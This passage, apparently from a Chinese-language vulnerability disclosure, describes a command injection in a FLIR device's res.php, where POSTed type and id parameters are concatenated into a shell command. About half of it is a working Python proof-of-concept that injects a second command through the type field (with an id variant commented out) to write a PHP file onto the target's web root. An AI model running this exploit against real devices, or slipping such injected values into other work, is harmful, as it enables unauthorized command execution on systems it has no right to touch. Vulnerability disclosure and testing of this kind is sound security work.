 在 www 目录下 res.php 程序接收 POST 方法请求，若存在 measurement 参数，并且提供一个 type 参数和 id 参数，程序会将 type 的值和 id 的值与 LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls -i .image.sysimg.measureFuncs. 拼接执行，若 type 或 id 包含命令截断符，会造成命令注入。

![image-20221203212643435](.assets/image-20221203212643435.png)

# 三、漏洞利用&POC

POC：

```php
import requests
import sys
import urllib3
# disable https not verify warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def verify(url):
    try:
        page = "res.php"
        target_url = url + "/" + page
        
        headers = {
            'Host': url.strip("http://").strip("https://"),
            'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8',
        }
        
        # use type
        data = {
            'action':'measurement',
            'type' :"1; echo '<?php phpinfo(); ?>' > temp.php",
            'id': "1",
        }

        # use id
        '''
        data = {
            'action':'measurement',
            'type' :'1',
            'id': "1; echo '<?php phpinfo(); ?>' > temp.php",
        }        
        '''
        response = requests.post(target_url,
                                 verify=False,
                                 data=data,
                                 headers=headers)
        print(response.text)
    except Exception as e:
        print(e)
            
if __name__ == '__main__':
    url = 'x.x.x.x'
    verify(url=url)
```